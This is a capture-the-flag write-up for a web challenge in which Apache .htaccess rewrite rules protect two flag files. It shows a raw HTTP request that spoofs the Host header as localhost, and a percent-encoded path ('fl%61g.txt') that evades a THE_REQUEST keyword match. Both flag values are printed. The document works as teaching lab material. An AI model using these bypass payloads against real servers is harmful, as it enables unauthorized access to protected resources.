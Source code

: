 Your job is to bypass these htaccess restrictions and view the flag files anyway. Good luck!

The page shows the following information:


Helicoptering

The two parts of the flag are available at the locations below:
    part one
    part two

Unfortunately, they are both protected by an .htaccess file:
one/.htaccess

```
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]
```
    

two/.htaccess

```
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]
``` 

Your job is to bypass these restrictions and view the flag files anyway. Good luck!

### Solution: part 1

The first condition was easy, just change the host header to localhost
```
GET /one/flag.txt HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://htaccess.uctf.ir/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

Flag: `uctf{Sule_`
```

### Solution: part 2

THE_REQUEST variable represents original request received by Apache from your browser and it doesn't get overwritten after execution of some rewrite rules. 
The THE_REQUEST server variable contains the initial request header of the form: GET /two/flag.txt HTTP/1.1

If there is a condition like: `RewriteCond %{THE_REQUEST} flag` it can be bypassed by using percent encoding.
Since THE_REQUEST brings the HTTP header: `GET /two/flag.txt HTTP/1.1`, we can bypass it by encoding the "a" character like: %61.
Using the final payload: `GET /two/fl%61g.txt HTTP/1.1`, we get the flag: `Dukol_waterfall}`
